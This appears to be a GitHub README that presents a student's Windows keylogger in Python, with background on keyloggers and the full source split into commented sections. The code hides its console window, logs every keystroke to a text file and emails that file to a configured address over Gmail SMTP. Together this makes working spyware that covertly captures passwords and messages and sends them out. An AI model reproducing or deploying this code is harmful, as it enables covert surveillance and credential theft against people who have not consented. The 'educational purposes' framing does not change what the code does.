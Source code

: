 # Keylogger

## Description:
A simple keylogger that I had to create during my Master Degree studies.  
You will have a copy of the code in the repository, even if there the description of the different parts is in Spanish (:pray:sorry:pray:).  
Please note that I created this code for educational purposes only.

## What is a KEYLOGGER?

A keylogger is a type of software or hardware device designed to record and monitor all keystrokes made on a computer or other input devices like a keyboard. It essentially captures and logs the data entered by a user, including passwords, sensitive information, messages, and other textual inputs.

## How it works?

Keyloggers can operate at different levels in a computing system:  

1) Software Keyloggers: These are installed on a computer as a hidden application or malicious code and run in the background. They intercept keyboard inputs before they are processed by other applications and log them to a file or send the data to a remote server. If programmed to do so, they can spread to other devices the computer comes in contact with.
2) Hardware Keyloggers: These are physical devices inserted between the computer keyboard and the computer's USB or PS/2 port. They capture keystrokes directly from the keyboard and store them internally or transmit them wirelessly to a receiver.

## Why is it important?

While keyloggers can have legitimate applications, they can also be misused for malicious purposes:  

1) Privacy Concerns: Unauthorized use of keyloggers can violate a person's privacy by capturing sensitive information, such as login credentials and personal messages, without their knowledge or consent.
2) Identity Theft and Fraud: Keyloggers are sometimes used by cybercriminals to steal personal information, including credit card numbers and banking credentials, leading to identity theft and financial fraud.
3) Malware Distribution: Keyloggers can be embedded in malicious software, such as trojans and viruses, which are distributed through phishing emails or compromised websites.
4) Spyware and Espionage: In cases of espionage or corporate espionage, keyloggers can be used to gather sensitive information from targeted individuals or organizations.

Here some examples for legitimate scenarios:  
  
1) Monitoring Employee Activities: In some workplaces, keyloggers may be used by employers to monitor employee activities to ensure compliance with company policies and detect any unauthorized actions.  
2) Parental Control: Some parents use keyloggers to monitor their children's online activities and protect them from potential online threats.
3) Forensic Investigations: In digital forensics, keyloggers can be used as tools to investigate cybercrimes and collect evidence.

## What does my script do?

The code sets up the necesary configurations for the Keylogger. It defines the log file name (<b>'pulsation_info'</b>), setting up the path where the keylog file will be stored (file_path) and configuring the program to run in the background by hiding the console window.  
The code includes a function (<b>'send_email'</b>) that sends an email with the keylog file as an attachment. The email credentials (email address and password) are provided, and the send_email function is invoked immediately to send the email.  
The keylogger functions are defined to capture key presses (<b>on_press</b>) and write the captured keys to the log file (<b>write_file</b>). The keylogger will capture all pressed keys until the escape key is pressed, at which point it will stop running.

## Script explanation

First let's import the needed libraries:  

```python
# Libraries
# These will be installed using the option that includes PYCHARM under Settings > Interpreters
# I was not able to install these libraries on MacOS using PIP, so I chose to use PARALLELS with Windows 10 and deliver the PEC from there

# Libraries / modules to be used: pywin32, pynput, inputimeout, scipy(wavfile), cryptography,
# requests(to get PC information), pillow(for screenshots)

# To be able to manage the automatic line break after 5 minutes without typing
from inputimeout import inputimeout, TimeoutOccurred

# To manage keylogger in the background
import win32console
import win32gui

# In order to send mail
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders
import smtplib

# For the input of the keys
from pynput.keyboard import Key, Listener

# Modules necessary to manage TIME
import time
import os
import schedule
import datetime as dt
```
Now let's jumpt to the code part.  

Define variables
```python
## Keylogger code

# Variables log file
pulsation_info = "pulsaciones_grabadas.txt"

# Variables for SEND EMAIL
email_address = "PUT YOUR EMAIL IN HERE ... @gmail.com"
password = "PUT YOUR PSSWD IN HERE"
to_address = "PUT AN EMAIL IN HERE ... @gmail.com"

# Variable for time management
tiempo_extra = 5
```

Let's set the path of the of the generated <b>'.txt'</b> file.  

```python
# Path where the TXT file of our keylogger will be generated
file_path = "C:\\USE A PATH YOU LIKE"
# Allows you to add an extension to the file
extend = "\\"
```

To make the program run in background.  

```python
# Run program in the background
window = win32console.GetConsoleWindow()
win32gui.ShowWindow(window, 0)
```

Function to send email.  

```python
# Send the email that adds the TXT file as an attachment to export the pressed keys
def send_email(filename, attachment, to_address):
    mens = MIMEMultipart()
    mens['From'] = email_address
    mens['To'] = to_address
    mens['Subject'] = "Keylogger file"
    body = "Cuerpo_del_correo"
    mens.attach(MIMEText(body, 'plain'))
    filename = filename
    attachment = open(attachment, 'rb')  # reads the binary
    p = MIMEBase('application', 'octet-stream')
    p.set_payload(attachment.read())
    encoders.encode_base64(p)

    # Adds the header 
    p.add_header('Content-Disposition', "attachment; filename = %s" % filename)
    mens.attach(p)
    # Variable to use SMTP session
    s = smtplib.SMTP('smtp.gmail.com', 587)
    s.starttls()
    s.login(email_address, password)
    txt = mens.as_string()
    s.sendmail(email_address, to_address, txt)
    s.quit()
```

Part of code that adds the <b>'.txt'</b> file as an attachment and send it out every 2 hours.  

```python
# Instance that attaches the generated txt as an attachment and sends it every 2 hours
send_email(pulsation_info, file_path + extend + pulsation_info, to_address)

# Variables TIME
currentTime = time.time()
stoppingTime = time.time() + tiempo_extra

count = 0
keys = []
```

Key press capture funtion.  

```python
# Function ON_PRESS which will capture the keys that are pressed
def on_press(key):
    global keys, count, currentTime

    print(key)
    keys.append(key)
    count += 1

    # To add more lines to TXT file
    if count >= 1:
        count = 0
        write_file(keys)
        keys = []


# Function that records the keystrokes in "pulsaciones_grabadas.txt" file
def write_file(keys):
    with open(file_path + extend + pulsation_info, "a") as f:
        for key in keys:
            conv = str(key).replace("'", "")  # to better read the keys pressed in the TXT file
            # each time the SPACE key is pressed it will generate a space between each word and add it to the TXT file
            if conv.find("space") > 0:
                f.write(' ')
                f.close()
            # each time the ENTER key is pressed it will generate a line break and add it to the TXT file
            elif conv.find("enter") > 1:
                f.write('\n')
                f.close()
            elif conv.find("Key") == -1:
                f.write(conv)
                f.close()
```  

To facilitate the exit of the keylogger.

```python
# Exit of the keylogger
def on_release(key):
    if key == Key.esc:
        return False
```

Block listener.

```python
# Listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## What's next?

The idea is to improve this script or rewrite from zero once I improve my coding skills :nerd_face:
